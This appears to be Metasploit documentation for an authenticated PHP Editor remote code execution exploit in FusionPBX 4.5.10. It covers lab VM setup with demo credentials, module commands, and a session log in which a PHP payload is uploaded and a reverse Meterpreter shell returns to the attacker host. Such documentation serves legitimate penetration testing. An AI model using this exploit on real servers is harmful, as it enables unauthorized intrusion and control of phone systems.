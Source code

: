 ## Vulnerable Application
FusionPBX 4.5.10 is vulnerable to authenticated remote code execution through their PHP Editor function. Users can rewrite any PHP on site to gain access as www-data.

### Creating A Testing Environment
The vendor has patched this issue. I have kept a copy of the version for demo purposes:
https://mega.nz/#!yiRigCAI!9Qt2g3wrQy3oLHAjf8uN2sz6dWkuhd4QV-G8G1FGv4k

Download the OVF from the link provided and import OVF.

Username: root<br>
Password: fusion

Database Password: bckfRgOxcFitVIsPRKVlmuvjfU


```
1. login as root on machine
2. cd /etc/fusionpbx
3. mv config.php config1.php
4. on web browser, visit https://ip/
5. set new admin password on the web ui prompt
6. on the next page insert database password into the database configuration 
7. submit and exploit
```

## Verification

Do:
```
    use exploit/linux/http/fusionpbx_php_editor_cmd_exec
    set RHOST target_ip
    set RPORT 443
    set SSL true
    set USERNAME login_username
    set PASSWORD login_password
    exploit
```

## Scenarios
### FusionPBX 4.5.10
```
msf5 > use exploit/linux/http/fusionpbx_php_editor_cmd_exec
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RHOST 192.168.0.48
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RPORT 443
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set SSL true
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set USERNAME admin
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set PASSWORD fusion
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > exploit
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > run
[*] Started reverse TCP handler on 192.168.0.12:4444 
[+] Login Successful!
[*] 192.168.0.48:443 - Sending PHP payload (/var/www/fusionpbx/project_root.php)
[+] Uploaded Successfully!
[*] 192.168.0.48:443 - Executing project_root.php...
[*] Sending stage (38288 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.12:4444 -> 192.168.0.48:51374) at 2020-01-20 07:22:05 +0000
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

